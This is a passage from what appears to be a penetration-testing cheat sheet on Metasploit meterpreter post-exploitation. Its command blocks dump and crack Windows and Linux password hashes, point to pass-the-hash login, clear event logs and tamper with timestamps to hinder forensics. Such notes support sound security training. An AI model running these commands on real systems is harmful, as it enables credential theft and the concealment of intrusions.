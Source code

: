 * ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/random/crack_password/index.md#windows-password-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
meterpreter > hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used') > use auxiliary/analyze/crack_windows
msf6 exploit('module_used') > set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used') > run
```
</div></div>

<hr class="sep-both">

## Notes for Linux meterpreter

<div class="row row-cols-md-2"><div>

You may use `upload`/`download`, but most of the time, you will be faster doing by running `shell` and doing things manually (without using metasploit modules).
</div><div>

* ➡ | ️`root`. Dump every credential stored by the system. Passwords must be [cracked/dehashed](/cybersecurity/random/crack_password/index.md#linux-shadow-hash-cracking). You can use a [hash to login](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
# basically, all that to do, cat /etc/shadow
meterpreter > bg
msf6 exploit('module_used') > use post/linux/gather/hashdump
msf6 exploit('module_used') > set SESSION 1
msf6 exploit('module_used') > run
```
</div></div>

<hr class="sep-both">

## 🥳 Last step: have fun 🥳

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ | `root`. Clear logs

```bash
meterpreter > clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```bash
meterpreter > timestomp
```

* ➡️ Random commands

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > localtime # time and date
# others
meterpreter > getenv
meterpreter > checksum
```
</div><div>
